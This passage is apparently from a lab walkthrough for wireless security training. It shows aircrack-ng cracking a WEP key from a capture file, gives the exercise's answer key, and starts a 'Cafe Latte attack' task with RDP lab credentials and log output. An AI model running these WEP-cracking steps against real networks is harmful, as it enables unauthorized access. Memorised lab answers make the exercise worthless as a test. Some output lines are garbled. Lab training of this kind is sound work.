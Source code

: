 After a while, students will terminate both processes (`aireplay-ng` and `airodump-ng`). Subsequently, students will use `aircrack-ng` to retrieve the key while specifying the `Student-01.cap` packet capture and the MAC address of the access point:

Code: shell

```shell
aircrack-ng -b D8:D6:3D:EB:29:D5 Student-01.cap
```

```
wifi@WiFiIntro:~$ aircrack-ng -b D8:D6:3D:EB:29:D5 Student-01.cap

Reading packets, please wait...
Opening Student-01.cap
Read 609701 packets.

1 potential targets                       Got 297118 out of 295000 IVsStarting PTW attack with 297118 ivs.
                         KEY FOUND! [ {hidden} ] 
Attack wDecrypted correctly: 100%00 captured ivs.
```

Answer: `1A:64:8C:9F:E2`

# The Cafe Latte Attack

## Question 1

### "Perform the Cafe Latte attack on the WiFi network. What is the WEP KEY for this network? (Format: XX:XX:XX:XX:XX)"

After spawning the target, students will establish an RDP connection using the credentials `wifi:wifi`:

Code: shell

```shell
xfreerdp /v:STMIP /u:wifi /p:wifi /dynamic-resolution
```

```
┌─[eu-academy-6]─[10.10.14.128]─[htb-ac-8414@htb-uy7uykiwcb]─[~]
└──╼ [★]$ xfreerdp /v:10.129.46.93 /u:wifi /p:wifi /dynamic-resolution 

[03:38:55:095] [98547:98548] [ERROR][com.winpr.timezone] - Unable to find a match for unix timezone: US/Central
[03:38:55:396] [98547:98548] [INFO][com.freerdp.gdi] - Local framebuffer format  PIXEL_FORMAT_BGRX32
[03:38:55:396] [98547:98548] [INFO][com.freerdp.gdi] - Remote framebuffer format PIXEL_FORMAT_BGRA32
[03:38:55:411] [98547:98548] [INFO][com.freerdp.channels.rdpsnd.client] - [static] Loaded fake backend for rdpsnd
[03:38:55:411] [98547:98548] [INFO][com.freerdp.channels.drdynvc.client] - Loading Dynamic Virtual Channel rdpgfx
[03:38:55:411] [98547:98548] [INFO][com.freerdp.channels.drdynvc.client] - Loading Dynamic Virtual Channel disp
```

